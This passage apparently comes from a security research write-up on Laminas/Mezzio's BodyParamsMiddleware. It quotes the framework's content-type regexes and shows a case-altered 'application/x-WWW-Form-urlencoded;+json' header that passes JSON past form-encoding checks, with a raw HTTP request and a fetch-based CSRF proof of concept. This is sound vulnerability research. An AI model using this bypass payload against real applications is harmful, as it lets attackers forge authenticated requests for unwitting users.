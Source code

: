 ### Laminas, Mezzio, Zend Framework

**Endpoint**
```php
$app->pipe(BodyParamsMiddleware::class);
...
public function indexAction() {
  $request = $this->getRequest();
```

**Source code**

By default, BodyParamsMiddleware composes the following strategies:

 * Mezzio\Helper\BodyParams\FormUrlEncodedStrategy
 * Mezzio\Helper\BodyParams\JsonStrategy

[/mezzio/mezzio-helpers/src/BodyParams/FormUrlEncodedStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/FormUrlEncodedStrategy.php#L18-L22)
```php
class FormUrlEncodedStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/x-www-form-urlencoded($|[ ;])#', $contentType);
```

[/mezzio/mezzio-helpers/src/BodyParams/JsonStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/JsonStrategy.php#L27-L31)
```php
class JsonStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/(|[\S]+\+)json($|[ ;])#', $contentType);
```

**JSON Content-Type**
```
application/XXX;+json
```

**HTTP Request**  
A different case is needed in order to bypass the FormUrlEncodedStrategy.
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-WWW-Form-urlencoded;+json
Content-Length: 13

{"test":true}
```

**CSRF PoC**
```html
<script>
  fetch('http://localhost/json',{
    method:'POST',
    headers:{'Content-Type':'application/x-WWW-Form-urlencoded;+json'},
    body:'{"test":true}',
    credentials: 'include'
  })
</script>
```